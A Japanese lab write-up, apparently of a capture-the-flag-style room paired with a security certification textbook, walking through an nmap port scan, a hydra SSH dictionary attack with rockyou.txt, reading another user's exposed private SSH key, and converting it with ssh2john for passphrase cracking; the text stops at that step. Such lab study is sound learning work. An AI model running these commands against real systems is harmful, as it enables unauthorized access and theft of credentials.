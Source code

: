 ## ポートスキャンとは
> **ポートスキャン**は、実際にパケットを送りつけて攻撃対象サーバからの応答を確かめ、**接続可能なポートを調査する手法**です。
> コネクション確立を試みることで調査するTCPスキャンと、UDPパケットを送って調査するUDPスキャンがあります。  

（出典：TAC出版「2024年度版情報処理安全確保支援士ALL IN ONE パーフェクトマスター」）

### ポートスキャンを試してみる
ポートスキャンを行うには`nmap`というツールを使用します。
オプションの詳細は調べるか、AIに聞いてください。
以下のコマンドでは、TCPスキャンを`10.10.201.17`に対して行い、稼働しているサービスの一覧をファイルに出しています。
```bash
$ nmap -sV -Pn -oN nmap.txt -v 10.10.201.17
```
見つかったポートに対して、クラックを仕掛けていくことになります。

## 辞書攻撃とは
> 辞書に記載されている単語をパスワードとして順に試す方法。Webサイトにまとめられている用語集などの単語も含む。

（出典：TAC出版「2024年度版情報処理安全確保支援士ALL IN ONE パーフェクトマスター」）

### 辞書攻撃を試してみる
紆余曲折あり、ユーザID（例：taro）をゲットしました。
`taro`をユーザID、辞書のリストをパスワードとして、辞書攻撃を仕掛けます。
辞書攻撃には`hydra`というツールを使用します。
```bash
$ hydra -l taro -P /usr/share/wordlists/rockyou.txt ssh://10.10.201.17 -t 4
```
`/usr/share/wordlists/rockyou.txt`というのが辞書になります。Kaliに含まれます。
実行後以下のような結果が得られます。
```
[22][ssh] host: 10.10.201.17   login: taro   password: passWord
```
パスワードをゲットしました。あとはsshログインしてよしなに暴れ回ります。

## sshキーのクラック
本のDay2はここまでで終わりですが、Roomの課題はまだあるので続きます。

`/home`に他のユーザのディレクトリが見えますが、なんとその中にSSHキーが含まれており、パーミッションが適切でないため、中身が参照できてしまいます。

```bash
$ ls -al /home/hanako/.ssh/
total 20
drwxr-xr-x 2 hanako hanako 4096 Apr 23  2018 .
drwxr-xr-x 5 hanako hanako 4096 Apr 23  2018 ..
-rw-rw-r-- 1 hanako hanako  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 hanako hanako 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 hanako hanako  771 Apr 19  2018 id_rsa.pub
```
hanakoの`id_rsa`の中身をいただきます。
```bash
cat /home/hanako/.ssh/id_rsa
```
中身をコピーして新たにファイルを作り、SSH接続を試みます。
```bash
vim hanako_id_rsa
ssh -i hanako_id_rsa hanako@10.10.201.17
Enter passphrase for key 'hanako_id_rsa': 
```
パスフレーズを求められるので、パスフレーズをクラックします。
使用するツールは`john the ripper`です。これもkaliに含まれます。
```bash
# ssh2john.py
# johnが理解できるハッシュ形式に変換
$ python3 /usr/share/john/ssh2john.py hanako_id_rsa > hash.txt

```